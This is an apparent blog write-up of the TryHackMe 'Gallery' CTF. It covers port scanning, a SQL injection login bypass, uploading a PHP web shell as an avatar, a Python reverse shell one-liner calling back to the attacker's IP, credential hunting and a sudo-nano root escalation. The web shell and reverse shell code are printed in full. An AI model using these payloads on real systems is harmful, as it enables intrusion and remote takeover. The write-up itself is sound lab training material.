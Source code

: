 ```yaml
---
layout: post
title: Gallery - TryHackMe write-up
---
```


Write-up for Gallery TryHackMe CTF
Hi hackers, today I'm gonna writeup gallery, an easy TryHackMe CTF.

## User
First I did some port scanning with rustscan and nmap (learn [here](https://book.hacktricks.xyz/pentesting/pentesting-network#scanning-hosts) more about port scanning)
```
$ rustscan -a gallery.thm -t 2000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/ubuntu/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.241.136:80
Open 10.10.241.136:8080
$ nmap -p80,8080 -A -oN port.txt -T4 gallery.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-24 16:44 CEST
Nmap scan report for gallery.thm (10.10.241.136)
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```
<br>
Rustscan found two open ports 80 and 8080, apache default pages was hosted on port 80

![apachedefault](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/apachedefault.png)

<br>
So, I enumerated directory with dirsearch

```
$ dirsearch -u http://gallery.thm -w $LIST/directory/dir.txt -o directory

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 329449

Output File: /home/ubuntu/ctf/tmp/80/directory

Error Log: /home/ubuntu/.local/lib/python3.9/site-packages/dirsearch/logs/errors-22-04-24_16-56-02.log

Target: http://gallery.thm/

[16:56:02] Starting: 
[16:56:42] 301 -  312B  - /gallery  ->  http://gallery.thm/gallery/
[16:57:21] 403 -  276B  - /server-status
[16:57:51] 200 -   11KB - /index.html

Task Completed
<dirsearch.dirsearch.Program object at 0x7f8e6d9c7700>
```
The directory gallery redirect to a login page
![loginpage.png](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/loginpage.png)

I checked if it was vulnerable to LDAP injection, SQL injection, XPath injection and it was vulnerable to SQL injection
![sqli.png](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sqli.png)

and I gain access to the admin panel.
Then, I started testing admin panel function and I noticed a function allowing upload avatar image so I tried uploading this web shell:
```
<?php
	$cmd=$_GET["cmd"];
	echo system("$cmd");
?>
```
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/schermata.png)

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/directorylistabile.png)

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/webshell.png)

It worked! 
Then I started a listener on my machine with nc:
```
$ rlwrap nc -nlvp 4444
```
and I executed the following reverse shell on the web shell I uploaded:
```
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.53.247",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

So I got a reverse shell
Then I run linpeas to find somethings, and it found mike's password:
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/linpeas.png)

it worked and I got user.txt

## Getting admin hash
We also need to find admin hash, so I started looking for database password in web root and I found a file called initialize.php containing it
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sqlpwd.png)
Then we can log in database and dump users' hashes
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/hash.png)

We got it!

## Root
Once we got user.txt our goal is to get root, running sudo -l I noticed we can executed /opt/rootkit.sh as root
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/sudo-l.png)

/opt/rootkit.sh allows us to execute nano as root if we select option read, we can exploit it to spawn a root shell
![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/nanoroot.png)

It worked, we got root!

![](https://raw.githubusercontent.com/0xShushu/0xShushu.github.io/master/_posts/img_1/root.png)

See you at the next post, keep hacking 
